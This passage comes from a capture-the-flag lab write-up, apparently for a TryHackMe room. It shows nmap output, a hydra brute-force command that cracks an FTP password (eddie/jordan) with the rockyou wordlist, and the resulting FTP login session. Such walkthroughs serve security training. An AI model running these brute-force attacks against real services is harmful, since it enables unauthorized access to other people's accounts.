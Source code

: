 ```bash
SF:,2A,"SSH-2\.0-OpenSSH_8\.2p1\x20THM{946219583339}\x20\r\n");
MAC Address: 02:94:C8:E5:84:B5 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.61 seconds
```

### Question 7  
**We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files accessible via FTP?**

**Answer:** THM{321452667098}

First, a brute-force attack was performed to find passwords for the users `eddie` and `quinn` on the FTP server running on the non-standard port 10021.

- For `User: eddie` `Password: jordan`:
```bash
root@ip-10-10-58-76:~# hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://10.10.146.130 -s 10021
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-15 18:42:02
[WARNING] Restorefile (you have 10 seconds to abort...) from a previous session found
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398)
[DATA] attacking ftp://10.10.146.130:10021/
[10021][ftp] host: 10.10.146.130   login: eddie   password: jordan
1 of 1 target successfully completed, 1 valid password found
Hydra finished at 2025-05-15 18:42:24
```

After logging in via FTP with the credentials for user **eddie**, no files or directories were found:

```bash
root@ip-10-10-58-76:~# ftp 10.10.146.130 10021
Connected to 10.10.146.130.
220 (vsFTPd 3.0.5)
Name (10.10.146.130:root): eddie
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp> quit
221 Goodbye.
```
